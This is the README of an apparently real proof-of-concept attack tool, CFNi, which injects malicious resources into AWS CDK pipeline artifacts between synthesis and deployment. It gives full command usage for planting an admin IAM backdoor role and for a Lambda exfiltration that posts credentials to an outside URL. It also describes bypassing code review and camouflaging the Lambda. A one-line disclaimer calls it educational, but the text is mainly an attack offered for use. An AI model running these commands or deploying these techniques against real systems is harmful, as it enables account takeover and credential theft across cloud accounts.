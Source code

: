 # CFNi - Cloudformation injection
![Build Status](https://github.com/hupe1980/cfni/workflows/build/badge.svg) 
[![Go Reference](https://pkg.go.dev/badge/github.com/hupe1980/cfni.svg)](https://pkg.go.dev/github.com/hupe1980/cfni)
> CFNi is a proof-of-concept to demonstrate an attack on the populare aws cdk pipeline. It takes advantage of the fact that between the "synth" step and the use of the cloudformation templates and lambda assets some time passes ("SelfMutate") and no integrity check is performed by default. After receiving an event from s3, the lambda function injects the malicious code/resources into the generated files. SAST/DAST controls and pull request reviews are bypassed and other accounts can also be attacked if the pipeline supports crossaccount deployments.

:warning: This is for educational purpose. Don't try it without permission!

## IAM
CFNi is designed to use a secondary account that you have full access to. The lambda is deployed there. This eliminates the need to have the required permissions in the target account. The credentials for this account should be specified with the `--attacker-profile` flag.

The `--bucket-profile` should have s3:PutBucketNotification permission to the targeted S3 bucket.

The `--s3-access-key-id`, `--s3-secret-access-key` and optionally `--s3-session-token` should have s3:GetObject and s3:PutObject permissions on the target S3 bucket. These credentials are hardcoded into the lambda during deployment and used to read the bucket files and inject the malicious code/resources.

Everything can also only be done in the bucket account. To do this, the same profile must be specified for the `--attacker-profile` and `--bucket-profile` flags. If no access-key is specified, CFNi tries to give the LambaExecutionRole the required s3:GetObject and s3:PutObject permissions.

## Bucket
The relevant bucket can be found in the build project (Synth) under artifacts upload location.

![bucket](assets/artifacs_bucket.png)

## Attacks
The proof-of-concept currently supports the following attacks:
- [IAM Role Backdoor](#iam-role-backdoor)
- [Lamda Exfiltration](#lambda-exfiltration)

### IAM Role Backdoor
Adds a role with admin permissions.

```
Usage:
  cfni iam-role-backdoor [flags]

Examples:
cfni iam-role-backdoor --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX

Flags:
  -b, --bucket string                 bucket name (required)  
      --environment strings           filter environments (default all environments)
  -h, --help                          help for iam-role-backdoor
      --logical-id string             logical id of the backdoor role (default "MaintenanceRoleBF21E41F")
  -p, --principal string              principal for backdoor role (default root principal of the attacker account)
  -r, --role-name string              name of the backdoor role (default generated role-name)
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Exfiltration
Injects a script that executes a post request with the lambda's environment variables as the body. access-key-id, secret-access-key and session-token are included in the payload.

```
Usage:
  cfni lambda-exfiltration [flags]

Examples:
cfni lambda-exfiltration --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --url https://xxxyem3.oastify.com

Flags:
  -b, --bucket string                 bucket name (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-exfiltration
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)
  -u, --url string                    exfiltration url (required)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

## Camouflage
If the lambda is deployed in the bucket account, it camouflages itself ;o)

![camouflage](assets/camouflage.png)

## License
[MIT](LICENCE)